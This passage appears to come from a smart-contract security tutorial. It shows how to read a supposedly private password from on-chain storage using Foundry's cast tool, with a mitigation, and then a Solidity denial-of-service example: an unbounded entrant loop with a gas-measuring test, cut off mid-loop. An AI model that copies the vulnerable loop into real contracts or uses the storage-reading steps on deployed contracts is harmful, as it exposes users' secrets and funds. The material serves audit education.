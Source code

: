 1. Deploy the contract on chain

```bash
make deploy
```

1. Grab the contract address and the RPC URL (in case of anvil it's [http://127.0.0.1:8545](http://127.0.0.1:8545/)). Run the storage tool. Note: we use `1` because that is the slot for the storage variable of `s_password`.

```bash
cast storage <ADDRESS-HERE> 1 --rpc-url <RPC-URL-HERE>
```

1. Grab the output of the command. Convert it to a string by running the following command. In my case it looked like this `0x6d7950617373776f726400000000000000000000000000000000000000000014` that converted is `myPassword`.

```bash
cast parse-bytes32-string <PREVIOUS-OUTPUT>
```

**Mitigation (for this scenario)**: Due to this, the overall architecture of the contract should be rethought. One could encrypt the password off-chain, and then store the encrypted password on-chain. This would require the user to remember another password off-chain to decrypt the password. However, you'd also likely want to remove the view function as you wouldn't want the user to accidentally send a transaction with the password that decrypts your password.

### Denial of Service (DoS)

**Example:** loops increase the gas needed to interact with a function, making it more expensive overtime and at some point unusable

```solidity
function enter() public {
        // Check for duplicate entrants
        for (uint256 i; i < entrants.length; i++) {
            if (entrants[i] == msg.sender) {
                revert("You've already entered!");
            }
        }
        entrants.push(msg.sender);
    }
```

Add this test to the `Contract.t.sol` test suite

```solidity
address warmUpAddress = makeAddr("warmUp");
address personA = makeAddr("A");
address personB = makeAddr("B");
address personC = makeAddr("C");

function test_denialOfService() public {
        // We want to warm up the storage stuff
        vm.prank(warmUpAddress);
        dos.enter();

        uint256 gasStartA = gasleft();
        vm.prank(personA);
        dos.enter();
        uint256 gasCostA = gasStartA - gasleft();

        uint256 gasStartB = gasleft();
        vm.prank(personB);
        dos.enter();
        uint256 gasCostB = gasStartB - gasleft();
        
        for(uint256 i = 0; i < 1000; i++){
	        vm.prank(address(uint160(i)));
```